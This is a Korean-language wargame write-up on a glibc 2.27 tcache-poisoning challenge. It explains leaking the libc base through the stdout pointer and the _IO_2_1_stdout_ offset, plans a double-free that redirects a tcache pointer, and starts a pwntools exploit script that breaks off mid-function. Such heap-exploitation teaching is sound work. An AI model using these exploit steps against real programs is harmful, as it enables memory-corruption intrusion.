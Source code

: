 libc leak 은 위 c 코드에 'setvbuf(stdout, 0, 2, 0);` 에서 나오는 취약점을 이용한다.  
자세한 설명은 아래에 해두겠다.  

<br> 

setvbuf 함수를 실행할 때 stdin 과 stout 을 인자로 넘긴 것을 볼 수 있다.  
근데 stdin과 stdout 은 <stdio.h> 헤더 파일에 FILE * 타입의 전역변수로 선언되어 있다.  
이런 전역 변수들은 동적 심볼로, 실행 시점에 libc 내부의 (실습에서는 libc-2.27.so) 내부의  `_IO_2_1_stdin_`, `_IO_2_1_stdout_` 객체와 연결된다.  
그말은 곧 프로그램 코드가 전역 변수에 접근하듯이 stdin과 stdout 을 사용하지만, 실제로는 glibc 내부 FILE 구조체를 가리키면서 입출력을 수행한다.  

여기서 하나 생각해볼 수 있는 건 `setvbuf(stdout, 0, 2, 0);` 과 같이 실행파일에서 명시적으로 호출하게 되는 지금과 같은 경우이다.  
이 경우엔 공격자가 stdout 을 사용하는 코드를 분석해보면, stdout은 당연히 `_IO_2_1_stdout_` 를 가르킬 것이고, 이 주소가 유출될 수 있다면? libc 의 베이스 주소를 역산할 수 있다.  

아래에서 바로 분석 후 활용해보자.  

<br>


<img width="1286" height="504" alt="image" src="https://github.com/user-attachments/assets/372ff7ce-a17f-4905-aadd-7fe33e706b94" />


<img width="1615" height="445" alt="image" src="https://github.com/user-attachments/assets/a142d604-f438-4675-b508-879c07568cab" />


<img width="1402" height="437" alt="image" src="https://github.com/user-attachments/assets/f1a9b662-6a5c-43c7-88d9-52e66afa518c" />

```bash
root@ad8b9a7fd378:~# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep _IO_2_1_stdout_
   836: 00000000003ec760   224 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.2.5
```

자 위에서 몇 가지 정보들을 알아왔다.   

`0x601010` 은 `stdout`의 포인터 값이고,  

`0x601010`을 조사해보면 얘는  `<stdout@@GLIBC_2.2.5>: 0x00007ffff7dce760`  으로, 
`libc`에 있는 `stdout` 을 가르키고 있다는 걸 알 수 있다. 

그리고 `00000000003ec760` 은 오프셋 주소로 `libc base` + `0x3ec760`을 하면 `stdout` 주소 가 되는 것 까지 알아냈다.

그러면 이제 libc를 어떻게 유출할지 정확히 방향을 잡을 수 있다.  

더블 free bug 로 `fd`를 stdout의 포인터 주소에 조작해둔 뒤, `stdout`의 포인터 주소인 `0x601010`으로 보내버린다. 그러면 tcache는 다음 청크로 저 주소를 주게 될 거고?   
거기서 한번더 호출을 해주고 주소를 읽으면 `stdout`의 주소가 leak 될 것이다.  

바로 코드를 작성해보자.  

<br>

**익스플로잇 코드 (libc leak)**
```python
from pwn import *

p = process('./tcache_poison', env={"LD_PRELOAD":"./libc-2.27.so"})
e = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')

def alloc(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)

def free():
    p.sendlineafter(b'Edit\n', b'2')

def print3():
    p.sendlineafter(b'Edit\n', b'3')

def edit(content):
```